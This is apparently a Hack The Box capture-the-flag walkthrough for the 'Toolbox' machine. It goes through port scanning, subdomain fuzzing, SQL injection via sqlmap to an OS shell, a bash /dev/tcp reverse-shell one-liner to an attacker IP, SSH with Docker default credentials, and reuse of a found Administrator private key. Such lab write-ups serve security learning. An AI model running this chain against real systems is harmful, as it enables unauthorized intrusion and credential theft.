# [Toolbox](https://app.hackthebox.com/machines/Toolbox)

```bash
nmap -p- --min-rate 10000 10.10.10.236 -Pn
```



After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p21,22,135,139,443,445,5985,47001 10.10.10.236 -Pn
```




From result, we need to add `megalogistic.com` domain for this host into `/etc/hosts` file. This is for resolving purposes.


Then, I do `Subdomain Enumeration` via `wfuzz` as below.
```bash
wfuzz -u https://10.10.10.236 -H "Host: FUZZ.megalogistic.com" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hh 22357
```



I add this `admin` subdomain into `/etc/hosts` file also.

I enumerate login form on administration page and find `SQL Injection` possible here after putting `'` mark here.

```bash
sqlmap -r login.req --force-ssl --level 5 --risk 3
```




After this, I enum that, I can get `RCE` via this `SQLI`. I add `--os-shell` option to get shell

```bash
sqlmap -r login.req --force-ssl --level 5 --risk 3 --os-shell
```



Then I submit this reverse shell payload into here.
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.12/1337 0>&1"
```

Hola I got reverse shell from port `1337`.




Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```




While I run `ifconfig`, I see that I hacked container.




user.txt



Let's try to switch into `host` by `ssh`. I reference this method from [here](https://github.com/boot2docker/boot2docker#ssh-into-vm)

docker: tsuser


```bash
ssh docker@172.17.0.1
```




While I run `sudo -l`, I see that I have all privilege, it means I can type `sudo -s` to be root user.




While making enumeration on the machine, I find `id_rsa` of `Administrator` user of host `Windows` machine

```bash
chmod 600 id_rsa
ssh -i id_rsa administrator@10.10.10.236
```




root.txt

